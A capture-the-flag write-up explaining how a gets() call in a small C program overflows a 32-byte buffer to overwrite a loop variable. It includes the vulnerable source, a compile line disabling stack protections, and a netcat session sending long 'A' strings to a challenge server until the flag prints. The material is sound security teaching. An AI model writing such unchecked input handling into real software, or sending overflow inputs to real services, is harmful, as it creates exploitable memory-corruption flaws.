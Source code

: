 Notice that the program will read the flag from a file if we somehow manage to break from the `while(1)` loop.

We also notice that if `x!=0`, the code will exit the "infinite" loop:

```C
int main() {
    while(1) {
        int x = 0;
        char name[32]="";
        printf("What's your name? ");

        // ...
        
        gets(name);    

        if(x) {
            break; // EXIT the loop
        } 

        // ...
    }

    // read flag from file
    // ...
    
    return 0;
}
```

But how can we set x to something different from 0 **in a compiled program**?

When we compile this using `gcc main.c -o main -std=c99 -fno-stack-protector -z execstack -no-pie`, we actually get a hint:

```bash
main.c: In function ‘main’:
main.c:13:9: warning: ‘gets’ is deprecated [-Wdeprecated-declarations]
   13 |         gets(name);
      |         ^~~~
In file included from main.c:4:
/usr/include/stdio.h:667:14: note: declared here
  667 | extern char *gets (char *__s) __wur __attribute_deprecated__;
      |              ^~~~
/usr/bin/ld: /tmp/ccs4hMd1.o: in function `main':
main.c:(.text+0x5e): warning: the `gets' function is dangerous and should not be used.
```

So the `gets()` function is considered dangerous. What does that mean?

If we search the internet, we find out that `gets` is unsafe since it doesn't check the input length when saving it to a buffer. In other words, it can copy, say, a 100 character long string in a 32 bytes array (100 and 32 are arbitrary number, anything similar proves the point). This is also known as a **Buffer Overflow**, since the remaining `100-32=68 bytes` override other variables in our program's memory, including `x`.

So, if we provide a string long enough to override x (but short enough to not override other important variables that will crash the program), we'll successfully retrieve the flag:

```bash
vianuhack@computer:~$ nc 164.92.224.165 1337
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
What's your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Congrats! You bypassed it!
Here's your flag: VianuCTF{PWN3D_TH1S_INTRO_B0F!}

vianuhack@computer:~$ 
```

This is why it's always important to address out-of-bounds array issues (signal 11) when coding in C/C++. While `gets()` is deprecated, there are many other places where issues like this can arise. 

